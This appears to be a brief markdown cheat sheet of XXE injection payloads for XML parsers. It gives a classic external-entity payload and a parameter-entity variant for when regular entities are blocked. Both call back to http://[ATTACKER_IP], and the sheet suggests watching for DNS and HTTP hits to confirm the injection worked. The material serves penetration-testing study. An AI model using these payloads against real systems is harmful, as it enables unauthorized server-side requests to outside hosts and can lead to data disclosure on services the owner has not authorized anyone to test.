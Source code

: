 #xmli #xxe #xml

Look for DNS lookup and HTTP request to detect if injections were succefull?

# Classic
## Code
```xml
<?xml version="1.0" encoding="UTF-8"?>
<productId>1</productId>
```

## Injection
```xml
<?xml version="1.0"?>
<!DOCTYPE foo [ <!ENTITY myVar SYSTEM "http://[ATTACKER_IP]/"> ]>
<productId>&myVar;</productId>
```


# XML Parameter (when regular entities are blocked)
## Code
```xml
<?xml version="1.0" encoding="UTF-8"?>
<productId>1</productId>
```

## Injection
```xml
<?xml version="1.0"?>
<!DOCTYPE foo [ <!ENTITY % myParam SYSTEM "http://[ATTACKER_IP]"> %myParam; ]>
<productId>1</productId>
```